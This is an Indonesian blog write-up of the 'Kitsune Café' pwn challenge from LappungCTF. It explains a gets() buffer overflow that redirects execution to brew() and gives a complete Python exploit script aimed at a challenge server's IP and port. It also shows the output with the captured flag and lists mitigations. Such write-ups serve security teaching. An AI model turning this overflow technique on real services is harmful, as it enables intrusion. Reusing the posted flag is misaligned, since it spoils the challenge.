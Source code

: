 ```yaml
---
title: "LappungCTF Vol 2.0 - Kitsune Café (PWN)"
date: "2025-10-28"
tags: ["pwn", "ctf", "writeup", "lappungctf", "kitsune"]
summary: "Write-up Kitsune Café — ret2brew, buffer overflow sederhana yang manis seperti kopi."
image: "/blog/LappungCTFVol2.0-KitsuneCafe/image.png"
author: "Erwin Wijaya"
draft: false
featured: true
---
```


## Pendahuluan

Halo! kali ini kita bakalan bahas challenge PWN **Kitsune Café** di LappungCTF.  
Bayangkan sebuah kafe kecil dengan barista ramah — tapi ternyata ada *secret brew* yang cuma akan diseduh kalau kamu bisa memanipulasi programnya. Misi: dapatkan `flag.txt` dengan cara memaksa program memanggil fungsi `brew()` menggunakan buffer overflow sederhana.  

Intinya: `order()` pakai `gets()` → kita overflow stack → overwrite saved return address → loncat ke `brew()` dengan menaruh argumen (pointer ke string literal) di stack. Manis, cepat, dan klasik seperti espresso shot.

---

## Ringkasan singkat exploit

1. `order()` memakai `gets()` ke buffer lokal (`s[68]`) tanpa batas → **vulnerable**.
2. `brew(char *s1, char *s2)` akan membuka `flag.txt` *jika* `strcmp(s1, "Foxfire Blossom")==0` **dan** `strcmp(s2, "Moonlit Ginseng")==0`.
3. Kita menimpa saved EIP sehingga program `ret` ke `brew()`, lalu meletakkan:
   - 4 byte dummy sebagai filler (agar argumen align setelah prolog fungsi),
   - pointer ke `"Foxfire Blossom"`,
   - pointer ke `"Moonlit Ginseng"`.
4. `brew()` dieksekusi dengan argumen yang tepat → `fopen("flag.txt","r")` → isi flag dicetak.

---

## Detail teknis (yang saya utak‑atik)

Saya buka binary dengan `strings`/`objdump` dan decompiler. Yang penting ditemukan:

- Alamat fungsi `brew`: `0x08048661`
- Alamat string `"Foxfire Blossom"`: `0x08048a20`
- Alamat string `"Moonlit Ginseng"`: `0x08048a30`
- Buffer di `order()` adalah 68 byte, tapi offset ke saved return (dari awal buffer) yang benar teruji adalah **76** bytes (karena saved EBP ikut tenggang).

**Kenapa perlu filler (4 bytes)?**  
Karena kita melakukan `ret` *langsung* ke alamat `brew`. Saat `brew` masuk, prolog fungsi `push ebp; mov ebp, esp` akan mendorong stack 4 byte. Agar argumen `char *s1` dan `char *s2` berada di `[ebp+8]` dan `[ebp+12]` setelah prolog, kita harus menyisipkan filler 4 byte *setelah* alamat `brew` pada payload kita. Tanpa filler, argumen bergeser dan strcmp gagal → `Recipe mismatch`.

---

## Payload & Layout (little-endian, 32-bit)

```
"A" * 76
p32(0x08048661)    # overwrite saved EIP -> brew()
p32(0x41414141)    # dummy filler (return value untuk brew)
p32(0x08048a20)    # pointer -> "Foxfire Blossom"
p32(0x08048a30)    # pointer -> "Moonlit Ginseng"
```

Setelah payload dikirim melalui `gets()`, `brew()` akan menerima argumen yang tepat dan mencetak flag.

---

## Exploit (PoC) — `solv.py`

Simpan script ini lalu jalankan `python3 solv.py`.

```python
#!/usr/bin/env python3
# solv.py — ret2brew exploit for Kitsune Café
from struct import pack
from time import sleep
import socket

HOST = "43.157.205.115"
PORT = 7112

BREW = 0x08048661
FOX  = 0x08048a20
MOON = 0x08048a30
OFFSET = 76

def p32(x): return pack("<I", x)

payload  = b"A" * OFFSET
payload += p32(BREW)         # EIP -> brew()
payload += p32(0x41414141)   # filler -> aligns args after push ebp
payload += p32(FOX)          # arg1 -> "Foxfire Blossom"
payload += p32(MOON)         # arg2 -> "Moonlit Ginseng"
payload += b"\n"

def recv_all(s, timeout=0.5):
    s.settimeout(timeout)
    data = b""
    try:
        while True:
            chunk = s.recv(4096)
            if not chunk: break
            data += chunk
    except:
        pass
    return data

with socket.create_connection((HOST, PORT), timeout=10) as s:
    print(recv_all(s).decode(errors="ignore"))   # menu/banner
    s.sendall(b"1\n")                            # choose Order
    sleep(0.05)
    print(recv_all(s).decode(errors="ignore"))   # prompt
    s.sendall(payload)                           # send exploit
    sleep(0.2)
    print(recv_all(s, 1.0).decode(errors="ignore"))
```

---

## Output contoh (hasil saya)
Saat saya jalankan script di env `ctfenv`, outputnya akan seperti ini:

```
(ctfenv) Deb@Rommel:~/CaptureTheFlag/lappung/pwn/kitsune$ python3 solv.py
=====================================
         Welcome to Kitsune Café
           Today's Menu
=====================================
1) Order — put your order
2) Exit  — leave Kitsune Café
=====================================
Choose an option:

[Barista]: Welcome to Kitsune Café.
[Barista]: Our secret brew mixes the fox's flame with the moon's root.
Please enter your order details:

Order received: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0
Combining ingredients... checking recipe...
Perfect blend! Brewing the secret brew...

LappungCTF{b0f_c0ff333_ras4_cl4ss1c_ff131}
```


---

## Mitigasi singkat
- **Jangan gunakan `gets()`**. Gunakan `fgets()` dengan panjang buffer yang diawasi.
- Aktifkan **Stack Canaries**, **ASLR/PIE**, dan **NX** untuk menyulitkan exploit klasik.
- Validasi input dan kurangi penggunaan fungsi-fungsi C legacy yang tidak aman.

--- 

**Tags:** #lappungctf #pwn #ctf
